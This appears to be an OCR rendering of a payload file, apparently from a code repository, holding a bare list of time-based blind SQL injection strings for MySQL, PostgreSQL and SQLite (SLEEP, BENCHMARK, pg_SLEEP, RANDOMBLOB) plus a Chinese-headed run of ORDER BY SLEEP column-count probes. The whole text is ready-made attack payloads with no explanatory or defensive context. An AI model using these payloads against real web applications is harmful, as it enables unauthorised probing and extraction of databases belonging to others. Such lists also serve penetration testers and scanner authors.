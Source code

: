 or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/

## 通用联合查询有效负载

 ORDER BY SLEEP(5)
 ORDER BY 1,SLEEP(5)
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A'))
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24